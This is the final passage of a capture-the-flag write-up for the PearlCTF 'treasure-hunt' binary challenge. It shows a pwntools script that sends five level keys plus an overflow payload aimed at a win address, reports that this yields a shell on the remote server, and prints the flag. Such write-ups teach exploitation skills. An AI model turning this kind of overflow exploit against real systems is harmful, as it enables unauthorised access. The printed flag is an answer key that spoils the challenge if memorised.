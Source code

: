 ```python
if is_remote:
    io = remote("treasure-hunt.ctf.pearlctf.in", 30008)
else:
    io = elf.process()

# Send the valid key according to it's level.
io.sendline(key_lvl1)
io.sendline(key_lvl2)
io.sendline(key_lvl3)
io.sendline(key_lvl4)

# Send the last valid key for level 5 and also the payload to win_addr.
io.sendline(key_lvl5 + payload)
io.interactive()
```
{% endcode %}

* If we run the exploit script remotely, we can get a shell.

<figure><img src="../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

## Flag

<kbd>pearl{k33p\_0n\_r3turning\_l0l}</kbd>
